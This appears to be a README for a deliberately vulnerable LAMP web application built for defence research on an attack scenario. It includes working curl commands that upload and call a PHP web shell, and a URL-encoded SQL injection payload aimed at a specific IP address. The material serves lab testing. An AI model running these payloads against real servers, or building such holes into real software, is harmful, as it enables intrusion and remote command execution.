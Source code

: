 # Web Server

## Requirements

For example, the exemplar assumes SQL injection is possible on the vendor web portal, **the web application where the contractor can submit invoices to the enterprise**. Additionally, the exemplar assumes a misconfiguration of the SQL server; in this example, **the SQL server is a Microsoft SQL server running with administrator privileges and has PowerShell enabled, allowing for command line interaction with the server.** The SQL injection will have a different level of observability and different set of defense tactics than network reconnaissance. This enables researchers to explore strategies such as focusing defensive tactics on increasing attack observability.

### To-Do List

- [X] test new sql file
- [X] set password in the insertion of data
- [X] test display
- [X] test sql injection
- [ ] automate sql injection (using yml and php+curl) [later]
- [ ] all done!

### LAMP

- Linux
- Apache Web Server
- MySQL Database Server
- PHP: backend programming language

### Database

#### Table&Column

- user
- user_group
- target_order

### Web Pages

- [login/register](https://www.tutorialspoint.com/php/php_mysql_login.htm)
- welcome
- search
- user profile(for photo uploading)



## SQL injections example

#### 1. Shell Injection

```shell
$ curl -F "image=@path/shell.php" http://IP_address/upload.php
$ curl -X GET  http://IP_address/images/shell.php\?cmd\=uname
```

#### 2. SQL Injection 




```shell
input query string: `anything%' OR 'x' LIKE '%x`
$ curl -X GET  http://52.37.128.197/index.php?query=anything%25%27+OR+%27x%27+LIKE+%27%25x
```



## Extensibility

1. Create your own database using your sql file
2. Modify the PHP source files, including functions and the level of security 



## References

[SQL injection](http://php.net/manual/en/security.database.sql-injection.php)
[Curl in PHP](http://thisinterestsme.com/php-login-to-website-with-curl/)
